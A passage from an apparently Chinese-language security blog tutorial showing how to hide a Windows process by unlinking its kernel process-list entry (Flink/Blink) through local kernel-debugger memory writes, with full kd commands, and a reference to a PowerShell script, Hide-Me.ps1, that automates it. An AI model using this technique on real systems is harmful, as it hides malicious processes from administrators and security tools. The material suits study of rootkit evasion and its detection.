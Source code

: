 **注：**

```
+0x000代表Flink
```

完整命令：

```
kd -kl -y "srv*c:\symbols*http://msdl.microsoft.com/download/symbols" -c "0xffffe001`95236370 L4 0x70 0x63 0x23 0x95;Q"
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-15/2-7.png)


### 7、进程自身的新Blink指向进程自身的双链表地址$thisProcessLinks

kd命令：

```
f $thisProcessLinks+0x008 L4 ($thisProcessLinks的第0字节) ($thisProcessLinks的第1字节) ($thisProcessLinks的第2字节) (thisProcessLinks的第3字节)
```

**注：**

```
+0x008代表Blink
```

完整命令：

```
kd -kl -y "srv*c:\symbols*http://msdl.microsoft.com/download/symbols" -c "0xffffe001`95236370+0x008 L4 0x70 0x63 0x23 0x95;Q"
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-15/2-8.png)

**注：**

```
7、8操作必须，对应双链表删除操作中的free(p),否则会蓝屏
```

### 8、测试

在tasklist和Process Explorer中，notepad.exe进程均被隐藏

## 0x04 powershell自动实现
---

以上操作可通过powershell脚本自动实现，这就是Hide-Me.ps1实现的功能

